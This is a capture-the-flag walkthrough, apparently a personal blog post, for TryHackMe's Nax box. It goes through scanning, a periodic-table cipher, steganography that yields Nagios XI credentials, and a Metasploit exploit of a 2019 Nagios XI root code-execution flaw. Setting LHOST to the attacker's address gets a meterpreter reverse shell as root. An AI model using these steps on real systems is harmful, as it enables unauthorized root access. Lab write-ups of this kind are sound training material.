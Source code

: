 ```yaml
---
layout: post
title: " Nax - TryHackMe"
date: 2020-07-17
excerpt: "Walkthrough for Nax on TryHackme"
tags: [Nax, TryHackMe, steganography, metasploit, Nagios]
comments: false
---
```


Nax is a medium difficulty box on [TryHackMe](https://www.tryhackme.com). Below is a step by step walkthrough to root this box.



Let's start by running **nmap -A [machine ip]**. We end up with the following results.

![Nax nmap](/assets/img/Nax1.png)

It looks like there's sites running both on http and https, let's take a look at both of them to see what's going on. Both sites show the same page as shown below.



![Nax Website](/assets/img/Nax2.png)

However, a review of the source code reveals a comment with a possible subdirectory to look at.

![Nax website source](/assets/img/Nax3.png)

Let's visit **http://[machine ip]/nagiosxi**. This leads to a login page for Nagios XI.

![Nax Nagios Login](/assets/img/Nax4.png)

At this point, we do not have any credentials, so let's use gobuster to try to enumerate and try to find some files/other directories. Let's run **gobuster dir -u http://[machine ip]/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,txt,xls -t 50**. Unfortunately, this did not turn up anything. At this point I turned my attention back to the list of elements on the main page.

After a quick Google search, I found a [Periodic Table Cipher](https://www.dcode.fr/atomic-number-substitution). Converting the periodic elements (Ag - Hg - Ta - Sb - Po - Pd - Hg - Pt - Lr) to their respective element numbers gives us **47 80 73 51 84 46 80 78 103 **.

![Nax Periodic Table Cipher](/assets/img/Nax5.png)

Next, let's convert these numbers to their respective entries on an ASCII table. I used [RapidTables](https://www.rapidtables.com/convert/number/ascii-hex-bin-dec-converter.html) for this. This gets us the answer to **Question 1**.

![Nax Question 1](/assets/img/Nax6.png)

Visiting the answer to Question 1 gets us an image that I saved and downloaded.

Running **exiftool [image name]** (redacted due to it answering Question 1) gives us the answer to **Question 2**.

![Nax Question 2](/assets/img/Nax8.png)

At this point, it seemed pretty obvious that this was using some sort of steganography, but I wasn't sure what type was being used to be honest. I searched for the answer to Question 2 in Google followed by the word cryptography, which led me to a Reddit thread which had a link to an online decoder. I imported the picture and it was able to find a payload hidden within the image.

![Nax image decode](/assets/img/Nax9.png)

This ends up providing you with the Nagios credentials, which end up being the answers to **Question 3** and **Question 4**. At this point, I went and attempted to use these newfound credentials to login to Nagios at **http://[machine ip]/nagiosxi/** I was able to login successfully.

![Nax Nagios Login](/assets/img/Nax10.png)

The next question asked for the CVE number, so I Googled **CVE Nagios XI 5.5.6**. There were several vulnerabilities out there, but the CVE ended up being one from 2019 that allows code execution as root. This is the answer to **Question 5**.

**Question 6** has no answer to submit, as it wants you to start MetaSploit, so go ahead and do so.

**Question 7** asks you for the module name of the machine, using **search Nagios 5.5.6** once logged into will provide you with some modules, one of which is the answer to this question.

Once you have select this module, use **SET PASSWORD** and set the appropriate password and **SET LHOST [attacker ip address]**. Once done, it should look similar to the following.

 ![Nax Metasploit](/assets/img/Nax11.png)

Once reviewed, type **run** to run the exploit. You should have a meterpreter shell within a few moments. Next, type **shell** to get a local shell and run **whoami** and you will see you are root.

![Nax root shell](/assets/img/Nax12.png)

I next ran **ls /home** to enumerate nonroot users to find the user flag. There is a user **galand** here. If we run **ls /home/galand** we will see the user.txt file. This can be read with **cat /home/galand/user.txt**, the answer to **Question 8**.

![Nax user.txt](/assets/img/Nax13.png)

Next, let's run **cat /root/root.txt**, which is the usual default location for root flags.

![Nax root.txt](/assets/img/Nax14.png)

And we're all done with this box.
